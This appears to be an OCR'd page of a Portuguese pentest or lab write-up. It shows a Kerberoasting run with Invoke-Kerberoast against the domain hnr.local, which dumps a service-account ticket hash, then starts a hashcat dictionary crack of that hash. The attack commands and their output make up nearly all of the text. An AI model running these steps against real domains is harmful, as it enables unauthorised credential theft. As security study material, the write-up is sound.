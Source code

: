 ```powershell
PS C:\Users\charris\Desktop> Invoke-Kerberoast -domain hnr.local -OutputFormat Hashcat                                                                                                               

TicketByteHexStream  :
Hash                 : $krb5tgs$23$*sqlserver$hnr.local$MSSQLSvc/SQL.hnr.local:1433*$6EB0AF7AF18FE1BD3B1033840C3848CB$58E8E31B0086B724DA67DFA11BC6C2A6B36399DFD60A6DD935CD850BE8C9365821A04A6F4F113B
                       6CC178A80467DCB6AFE6DA14F2A8286BD91A079A795B77084DBDD876323FE5A9130E215E3F8D2E763D9F21840091336DCB315082C29BDC6A3E34A94DB26A8DDA2E007DF3DE085A1030FDAC24AF832C100FC7BBB6D00EE
                       CC8A375C7408EA858BBF746A0754BF58DE9D39646636F6B228D97DEBED70960CCBC1B6A6EC01936C9744CC6D43E38518AA24A84E3353E9AA3DB31E6FFA8D15917F10BF97E1909D70276F9B0C33ACB1B05DE912DDF9BE6
                       DA50BD35CE3A295AF29B8D530F2EAEDDAEFDC34A8BC0C05C3C592B4D1A5F296C20B9A37B7B08F4D19955C08A53BC80C8DDEE168D26E726FAD832355DF45583B78D70C8EE676B6838D155A864763667FFF2048D2BD4D35
                       F34EF06BD7E387EDC08402D8703CE635710B1A33E352225A680FE15F2F1F6D3B26D91B1C7616F1B558759EF82B4350E846D7245CAD30D65C1CDB39E2DBC34C8E1F9ECC4744BF75302EBADEA2BF8B40BB234307916CAC4
                       78A89A42062908F41FA1241B1489AE45731E2AEE521C5B56805C2C2152E117C42AC1BAE2159806F8F42D9463D7B2ED710F5BA85FC60D0988DCA6C70551DC95F2E2248B2F1E287CD156FB9B13356E9EE797D9FF17E0231
                       BE8406669AD7EEC934CB17F863BFB7DC545E0106BFE09DF621F9922C514D9242E07F2395F3286D78ADE0AAC6EC18D8CB3414018B9D82ECB39B1258805D0953AA564179BD60F2E8361671081304AEB06BB5D53F48F87BE
                       416FB203F14F835C841919E542D0C381D06EC1ACA47EDB88950EDFE7D6BAC6EA91FD806F21431A4B19179D34FCEF03D4774EFEA272FEDDC6D6BCBAD9E8E366DF8ECF9DB571857978DEF90727E92E49AA1795A5EFE7C7B
                       A57BD02FA28AD95DD9639EC5BDE3F3C229AC94AE20F574186334132084A94BBB0AC963E070AB9D5BF33D57EDAF43B653736FECA62B4C5414C5E68357527C0AB1E3C1F8B9306601DC3DA93D573C880642965F9AC587CB5
                       052ABF1E667D418CC3AB0B7D236D8B33A45FB328C094603C4388BCE467DD2EEA580130564541C31AE3CA1DE10F244DC05F4FA8F405A5C1B6D1C5C79A885C2BCD1A505989B70F005884BD639170E3C1147823ECC9EFFB0
                       A03C2B718595719DB8AD60A74AE06A92CB917B05E43E09D3993A5BACA5F656072294B9ECC64BC028C685358455935F7FC96E76A81E4771CA0BDDCB23346708B0B4EFE6929050846B6404D784A989F5A29EEA422E34225
                       44DDC77FB1B191249E2D7D19405F094A2934F5C1BF7DDCA532236C77EA98E76BB47F8391F39DECC3E64BF9667B8D28491CF09EBC28A0AF17E33C88E02BAD1346396BE2E2D75A079218ED683A2EB466B34EF5C274FE3A8
                       62BD89A260088C356201934C783D4166827F30DA0DAF4D2162DB215362BD299CFBE5B3D1855C1E70CFDEA5C5024FC4B6090B9037194F38EF884DCE5FE8DA037638EF2F11B93C8382D282BD0D761F697795D7AD38D9B75
                       198AF91F92E0D2A11595F3E6D63113165A8849DD8150284312D3AFB6047F88F5C88F76E1
SamAccountName       : sqlserver
DistinguishedName    : CN=SQLServer,CN=Managed Service Accounts,DC=hnr,DC=local
ServicePrincipalName : MSSQLSvc/SQL.hnr.local:1433
```
Processo de tentativa de descoberta da credencial com [HashCat](https://hashcat.net/hashcat/).

```
hashcat-5.1.0 ./hashcat64.bin -a 0 -m 13100 hash.txt ~/tools/wordlist/br-wordlist.txt
hashcat (v5.1.0) starting...

OpenCL Platform #1: NVIDIA Corporation
======================================
* Device #1: GeForce GPU, 500/2000 MB allocatable, 5MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Watchdog: Temperature abort trigger set to 90c

Dictionary cache built:
* Filename..: /home/tuxtrack/tools/wordlist/br-wordlist.txt
* Passwords.: 73551
* Bytes.....: 596942
```